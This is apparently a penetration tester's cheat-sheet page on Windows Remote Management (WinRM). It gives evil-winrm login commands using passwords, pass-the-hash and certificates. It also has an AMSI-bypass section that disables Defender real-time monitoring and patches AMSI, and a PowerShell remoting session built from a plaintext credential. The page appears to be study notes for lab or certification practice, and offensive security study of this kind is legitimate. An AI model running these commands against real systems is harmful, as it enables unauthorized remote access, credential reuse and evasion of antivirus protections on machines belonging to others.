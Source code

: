 # WinRM (5985,5986)

## Authentication

{% tabs %}
{% tab title="Password-based" %}
```bash
evil-winrm -i <ip> -u <user> -p <pass>
```
{% endtab %}

{% tab title="Pass-the-Hash" %}
```bash
evil-winrm -i <ip> -u <user> -H <hash>
```
{% endtab %}

{% tab title="Certificate & Key" %}
```bash
# -S -> SSL
evil-winrm -i 10.10.11.152 -S -k <key> -c <crt>
```
{% endtab %}
{% endtabs %}

## AMSI Bypass

{% tabs %}
{% tab title="1. Check" %}
{% code overflow="wrap" %}
```powershell
> #amsiscanbuffer
At line:1 char:1
+ #amsiscanbuffer
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.

# Try this as well
> set-mppreference —disablerealtimemonitoring $true
```
{% endcode %}
{% endtab %}

{% tab title="2. Bypass" %}
Try [AMSI.fail](https://amsi.fail/).

```powershell
> Bypass-4MSI

Info: Patching 4MSI, please be patient...
[+] Success!
```
{% endtab %}

{% tab title="3. Confirm" %}
```powershell
> #amsiscanbuffer
```
{% endtab %}
{% endtabs %}

## PowerShell Remoting

**PowerShell Remoting** by default uses **WinRM** for Cmdlets such as `Enter-PSSession`. Therefore, a user needs to be in the local group `Remote Management Users` to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.

> _Creating a PowerShell remoting session via WinRM in a bind shell can cause unexpected behavior. Opt for `evil-winrm` instead._

{% code overflow="wrap" %}
```powershell
> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
{% endcode %}
